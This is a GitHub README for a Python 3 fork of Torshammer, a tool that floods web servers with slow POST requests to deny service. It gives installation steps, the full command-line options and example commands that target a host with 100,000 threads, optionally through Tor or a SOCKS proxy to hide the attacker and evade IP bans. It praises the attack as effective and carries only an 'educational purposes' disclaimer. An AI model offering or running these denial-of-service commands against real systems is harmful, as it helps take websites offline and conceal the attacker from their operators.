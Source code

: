 # Use for educational purposes ONLY

## This is a maintained fork of Torshammer
- It works with the new TOR port 9050.
- Python 3.x version compatible.
  - If you need python 2.x version, please use [Karlheinzniebuhr's torshammer](https://github.com/Karlheinzniebuhr/torshammer)


## TORS HAMMER HOW TO

### Installation

Clone source code

```console
git clone https://github.com/kucingbasah737/kb737-torshammer
cd kb737-torshammer
```
### Usage

```console
python torshammer.py
```

or:
```console
python3 torshamer.py
```

```
./torshammer.py -t <target> [-r <threads>] [-p <port>] [-T] [-S <sockshost> -P <socksport>] [-i <seconds>] [-s <seconds>] [-h]
 -t|--target <Hostname|IP>
 -r|--threads <Number of threads> Defaults to 256
 -p|--port <Web Server Port> Defaults to 80
 -T|--tor Enable anonymising through tor on 127.0.0.1:9050
 -S|--sockshost <SOCKS host addrees> eg: 127.0.0.1
 -P|--socksport <SOCSS host port> Defaults to 1080
 -i|--max-delay <max seconds beetwen packets in float> Defaults to 3.0
 -s|--pre-sleep-on-thread-start <max seconds beetween starting threads> Default to none
 -h|--help Shows this help
```
You should now see a terminal-based GUI interface.
**Tor'shammer interface has it's own basic help menu that tells you how to run the script according to your target.**

Example usage:
```console
python torshammer.py -t 192.168.1.100 -r 100000 -T
```

```console
python torshammer.py -t 192.168.1.100 -r 100000 -S 127.0.0.1 -P 8080
```

```console
python torshammer.py -t 192.168.1.100 -r 100000 -i 3.0 -s 1.0
```

- The larger the thread count, the more efficient and effective the attack!!
- -T adds the Tor function which provides security, as well, as providing a new identity in case the site is
programmed to ban IP addresses which leave an open connection for "x" amount of time. Tor'shammer's method of
combining this is clever and effective, making it the powerful tool it is. However, Tor'shammer is only effective to
apache servers which do not run nginx.

### Alternatives Python 3 Forks
Beside my fork, there are some forks too from [Karlheinzniebuhr's torshammer](https://github.com/Karlheinzniebuhr/torshammer):
- [fckwarship's torshammer](https://github.com/fckwarship/torshammer).
  I found it and test it after I create my fork. Many nice optimations has been applied.
  You might use this fork beside mine for more simple option.
- [Mr-Destoryer's torshammer](https://github.com/Mr-Destroyer/torshammer).
